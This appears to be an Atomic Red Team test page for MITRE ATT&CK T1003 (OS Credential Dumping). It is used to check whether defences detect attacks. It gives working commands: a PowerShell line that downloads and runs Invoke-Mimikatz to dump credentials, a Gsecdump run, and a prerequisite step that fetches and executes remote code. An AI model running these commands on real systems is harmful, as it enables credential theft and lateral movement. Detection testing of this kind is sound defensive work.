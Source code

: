 # T1003 - OS Credential Dumping
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1003)
<blockquote>Adversaries may attempt to dump credentials to obtain account login and credential material, normally in the form of a hash or a clear text password, from the operating system and software. Credentials can then be used to perform [Lateral Movement](https://attack.mitre.org/tactics/TA0008) and access restricted information.

Several of the tools mentioned in associated sub-techniques may be used by both adversaries and professional security testers. Additional custom tools likely exist as well.
</blockquote>

## Atomic Tests

- [Atomic Test #1 - Powershell Mimikatz](#atomic-test-1---powershell-mimikatz)

- [Atomic Test #2 - Gsecdump](#atomic-test-2---gsecdump)


<br/>

## Atomic Test #1 - Powershell Mimikatz
Dumps credentials from memory via Powershell by invoking a remote mimikatz script.
If Mimikatz runs successfully you will see several usernames and hashes output to the screen.
Common failures include seeing an \"access denied\" error which results when Anti-Virus blocks execution.
Or, if you try to run the test without the required administrative privleges you will see this error near the bottom of the output to the screen "ERROR kuhl_m_sekurlsa_acquireLSA"

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_script | URL to a remote Mimikatz script that dumps credentials | Url | https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
IEX (New-Object Net.WebClient).DownloadString('#{remote_script}'); Invoke-Mimikatz -DumpCreds
```






<br/>
<br/>

## Atomic Test #2 - Gsecdump
Dump credentials from memory using Gsecdump.
Upon successful execution, you should see domain\username's following by two 32 characters hashes.
If you see output that says "compat: error: failed to create child process", execution was likely blocked by Anti-Virus.
You will receive only error output if you do not run this test from an elevated context (run as administrator)
If you see a message saying "The system cannot find the path specified", try using the get-prereq_commands to download and install Gsecdump first.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| gsecdump_exe | Path to the Gsecdump executable | Path | PathToAtomicsFolder&#92;T1003&#92;bin&#92;gsecdump.exe|
| gsecdump_bin_hash | File hash of the Gsecdump binary file | String | 94CAE63DCBABB71C5DD43F55FD09CAEFFDCD7628A02A112FB3CBA36698EF72BC|
| gsecdump_url | Path to download Gsecdump binary file | url | https://web.archive.org/web/20150606043951if_/http://www.truesec.se/Upload/Sakerhet/Tools/gsecdump-v2b5.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
#{gsecdump_exe} -a
```




#### Dependencies:  Run with `powershell`!
##### Description: Gsecdump must exist on disk at specified location (#{gsecdump_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path #{gsecdump_exe}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
$parentpath = Split-Path "#{gsecdump_exe}"; $binpath = "$parentpath\gsecdump-v2b5.exe"
IEX(IWR "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-WebRequestVerifyHash.ps1")
if(Invoke-WebRequestVerifyHash "#{gsecdump_url}" "$binpath" #{gsecdump_bin_hash}){
  Move-Item $binpath "#{gsecdump_exe}"
}
```




<br/>
